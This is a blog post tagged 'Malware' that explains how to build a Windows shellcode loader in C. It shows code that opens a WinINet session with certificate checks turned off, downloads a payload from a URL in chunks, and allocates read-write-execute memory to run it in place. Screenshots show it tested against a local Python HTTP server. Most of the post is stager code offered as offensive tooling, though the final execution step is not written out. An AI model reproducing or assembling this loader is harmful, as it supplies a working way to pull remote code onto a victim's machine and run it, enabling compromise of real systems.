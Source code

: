 ```yaml
---
title: "Dynamic payload loader in C: downloading and executing shellcode in memory"
date: 2025-10-25   
categories: [Malware]
tags: [Malware]
image: "https://i.pinimg.com/1200x/2c/14/1c/2c141ce3c05039619b6dca4a3ab43fbe.jpg"
---
```


In this post we will explore the development of a loader in C that uses Windows APIs to retrieve a remote payload via HTTP and execute it directly in memory. In this Post obfuscation techniques will not be explored.

## Understanding the implementation logic
In an overview, I will debug the loader and explain its operation in parts and how I used the APIs in its construction.

Function GetShellFromUrl:
```c
BOOL GetShellFromUrl(LPCWSTR szUrl, PBYTE* pPayloadBytes, SIZE_T* sPayloadSize) {
    BOOL        bSTATE = TRUE;
    HINTERNET   hInternet = NULL,
                hInternetFile = NULL;
    DWORD       dwBytesRead = 0;
    SIZE_T      sSize = 0;
    DWORD       dwError = 0;
    PBYTE       pBytes = NULL;
    PBYTE       pTmpBytes = NULL;
```
Basically the GetShellFromUrl function is responsible for downloading data from a URL. It receives the web address and returns the downloaded data along with its size. Internally, it uses control variables: bSTATE monitors success or failure, hInternet and hInternetFile manage network connections, dwBytesRead counts bytes read per operation, sSize accumulates the total size, dwError stores error codes, pBytes holds the complete payload and pTmpBytes serves as a temporary buffer for reading in chunks.

WININET initialization:
```c
hInternet = InternetOpenW(L"Ozyy", INTERNET_OPEN_TYPE_DIRECT, NULL, NULL,
    INTERNET_FLAG_IGNORE_CERT_DATE_INVALID |
    INTERNET_FLAG_IGNORE_CERT_CN_INVALID);
```

In this part, it starts an Internet session using [InternetOpenW](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenw), where it configures the user agent and ignores SSL certificate checks to ensure that connections can be established even with untrusted servers.


Opening the URL:
```C
hInternetFile = InternetOpenUrlW(hInternet, szUrl, NULL, 0,
    INTERNET_FLAG_RELOAD |
    INTERNET_FLAG_IGNORE_CERT_DATE_INVALID |
    INTERNET_FLAG_IGNORE_CERT_CN_INVALID, 0);
```
Here the specific HTTP connection is established using [InternetOpenUrlW](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurlw). This function opens a communication channel with the remote server using the previously created session. The INTERNET_FLAG_RELOAD flag forces a direct download from the server.

Dynamic memory management:
```c
pTmpBytes = (PBYTE)LocalAlloc(LPTR, 1024);
```
```C
PBYTE pNewBuffer;
if (pBytes == NULL) {
    pNewBuffer = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
}
else {
    pNewBuffer = (PBYTE)LocalReAlloc(pBytes, sSize + dwBytesRead, LMEM_MOVEABLE | LMEM_ZEROINIT);
}
```
Here I implemented a section that manages memory incrementally during the download. First, it allocates a temporary buffer to receive data in chunks. On the first read, it creates a main buffer with the exact size of the received chunk. For each new piece of data, it dynamically expands the main buffer using memory reallocation, which allows resizing the existing block and fills the new area with zeros. This enables building the complete file in memory efficiently, concatenating all chunks without wasting resources, adapting to files of any size in an optimized way.

Error handling:
```C
_Cleanup:
    if (hInternetFile) InternetCloseHandle(hInternetFile);
    if (hInternet)     InternetCloseHandle(hInternet);
    if (pTmpBytes)     LocalFree(pTmpBytes);

    if (!bSTATE && pBytes) {
        LocalFree(pBytes);
        *pPayloadBytes = NULL;
        *sPayloadSize = 0;
    }
```
LocalFree releases the temporary buffer. In case of failure, the main buffer is also freed and the return pointers are reset.

Executable memory allocation:
```c
LPVOID execMem = VirtualAlloc(NULL, Size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```
Executable memory allocation is performed using [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/memory/allocating-virtual-memory). NULL allows the system to choose the optimal base address. MEM_COMMIT | MEM_RESERVE allocates both address space and physical storage. PAGE_EXECUTE_READWRITE sets dangerous permissions that allow reading, writing, and execution.



## Executing our Loader:
First creating an HTTP server with Python just to test.
![alt text](/assets/post7/server.jpeg)

Executing the Loader:
![alt text](/assets/post7/executando.jpeg)
![alt text](/assets/post7/rodou1.jpeg)

